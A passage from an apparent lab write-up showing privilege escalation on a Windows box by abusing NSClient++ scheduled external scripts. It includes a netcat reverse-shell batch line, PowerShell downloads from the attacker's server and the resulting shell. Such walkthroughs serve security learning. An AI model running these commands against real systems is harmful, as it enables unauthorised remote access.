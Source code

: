 I was able to get success by taking the following steps based on [How To Run
Commands](https://docs.nsclient.org/howto/run_commands/) in the NSClient
documentation. The steps are for directly interacting with the `nsclient.ini`
file, but I eventually got a feel for how to use the web interface to get the
same results:

  1. Create `shell.bat`:
    
        \programdata\nc.exe 10.10.14.24 443 -e cmd
    

This assumes that `nc.exe` is in `C:\programdata` (I will put it there) and it
will connect back to me with a shell when run.

  2. Upload `nc64.exe` and `shell.bat` to `C:\programdata\`. I started a Python HTTP server on my host, and used PowerShell’s `wget` command:
    
        nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.24/nc64.exe -outfile nc.exe
    nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.24/shell.bat -outfile shell.bat
    

  3. In the NSClient++ GUI, first I’ll associate my script with a command by clicking Settings > external scripts > scripts, and then “+Add new”.

![image-20200413124942222](https://0xdfimages.gitlab.io/img/image-20200413124942222.png)

When I hit “Add”, `df` now shows up under scripts above, and the Changes tab
turns red. I can go to Changes and save this to the disk config. This will add
the following to the config file:

    
    
       ; in flight - TODO
       [/settings/external scripts/scripts/df]
       
       ; COMMAND - Command to execute
       command = C:\\programdata\\shell.bat
    

  1. Now under scheduler > schedules I’ll hit the “+Add new” button. I need to add two things here. First, I’ll edit the section to add a new name, and then give it an interval of 10 seconds:

![image-20200413125324355](https://0xdfimages.gitlab.io/img/image-20200413125324355.png)

After hitting Add, I’ll change edit the form, and then Add again:

![image-20200413125404288](https://0xdfimages.gitlab.io/img/image-20200413125404288.png)

Now `df` shows up as a scheduled task, and I can see it has both key/values:

![image-20200620065935852](https://0xdfimages.gitlab.io/img/image-20200620065935852.png)

  1. Wait. It can take longer than it feels like it should.

Eventually, a shell comes back:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.184.
    Ncat: Connection from 10.10.10.184:50376.
    Microsoft Windows [Version 10.0.18363.752]
    (c) 2019 Microsoft Corporation. All rights reserved.
    